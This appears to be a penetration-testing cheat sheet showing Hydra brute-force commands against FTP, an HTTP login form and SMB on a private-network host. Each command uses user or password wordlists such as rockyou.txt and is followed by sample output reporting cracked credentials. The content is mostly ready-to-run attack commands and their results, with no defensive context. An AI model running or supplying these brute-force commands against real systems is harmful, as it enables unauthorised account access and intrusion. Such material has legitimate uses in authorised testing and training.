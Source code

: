 ### FTP Brute Force

```bash
hydra -L users.txt -P passwords.txt ftp://192.168.1.100
```

Output:
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-26 12:45:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1200 login tries (l:40/p:30), ~75 tries per task
[DATA] attacking ftp://192.168.1.100:21/
[21][ftp] host: 192.168.1.100   login: ftpuser   password: ftppass
1 of 1 target successfully completed, 1 valid password found
```

### HTTP Form Authentication

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

Output:
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-26 12:56:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.100:80/login.php:username=^USER^&password=^PASS^:Login failed
[80][http-post-form] host: 192.168.1.100   login: admin   password: admin123
1 of 1 target successfully completed, 1 valid password found
```

### SMB Authentication

```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 192.168.1.100 smb
```

Output:
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-26 13:10:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking smb://192.168.1.100:445/
[445][smb] host: 192.168.1.100   login: administrator   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
```
